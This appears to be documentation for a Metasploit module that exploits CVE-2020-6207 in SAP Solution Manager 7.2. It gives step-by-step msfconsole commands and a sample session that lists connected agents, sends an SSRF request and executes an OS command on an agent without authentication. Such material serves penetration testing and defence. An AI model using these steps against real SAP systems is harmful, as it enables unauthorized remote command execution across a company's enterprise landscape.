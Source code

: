 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting SOAP requests to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF), and execute OS commands on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation of the vulnerability enables unauthenticated remote attackers to achieve SSRF and execute OS commands from the agent connected
to SolMan as a user from which the SMDAgent service starts, usually the daaadm.

Paper: [An Unauthenticated Journey to Root][1]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is tightly connected to all other SAP systems with high privileges.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining the enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][2].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set action LIST`
1. Do: `run`
1. Verify that a list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SSRF_METHOD [GET, POST, PUT, DELETE, PATCH, ...]`
1. Do: `set SSRF_URI [SSRF uri, example - http://1.1.1.1/test.html]`
1. Do: `set action SSRF`
1. Do: `run`
1. Verify that the HTTP request from the connected agent has been sent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set COMMAND [OS command, example - ping -c 4 1.1.1.1]`
1. Do: `set action EXEC`
1. Do: `run`
1. Verify that the OS command has been executed on the connected agent.

## Options

### TARGETURI

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed at a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent sever name.
Example: `linux_agent`

### SSRF_METHOD

HTTP method for sending HTTP request from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `GET`

### SSRF_URI

URI for sending HTTP requests from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `http://1.1.1.1/test.html`

### COMMAND

OS command for executing in connected agent, the server name of which is specified in the `AGENT` option.
Example: `ping -c 4 1.1.1.1`

## Actions
```
   Name  Description
   ----  -----------
   EXEC  Exec OS command on connected agent
   LIST  List connected agents
   SSRF  Send SSRF from connected agent
```

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/cve_2020_6207_solman_rce
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION LIST
ACTION => LIST
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Getting a list of agents connected to the Solution Manager: 172.16.30.46
[+] Connected agents list:
+--------------+------------------------+---------------+------------------------+--------------+
| Server Name  | Host Name              | Instance Name | OS Name                | Java Version |
+--------------+------------------------+---------------+------------------------+--------------+
| test_linux   | SAPERP.corp.test.com   | SMDA98        | Linux                  | 1.8.0_25     |
| test_windows | SAP731.corp.test.com   | SMDA97        | Windows Server 2008 R2 | 1.6.0_29     |
+--------------+------------------------+---------------+------------------------+--------------+
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_METHOD PUT
SSRF_METHOD => PUT
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_URI http://192.168.50.2:9999/
SSRF_URI => http://192.168.50.2:9999/
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SSRF
ACTION => SSRF
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[+] Send SSRF: 'PUT http://192.168.50.2:9999/ HTTP/1.1' from agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set COMMAND ping -c 4 192.168.50.2
COMMAND => ping -c 4 192.168.50.2
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set action EXEC
action => EXEC
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[+] Execution command: 'ping -c 4 192.168.50.2' on agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-21 10:31:36 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
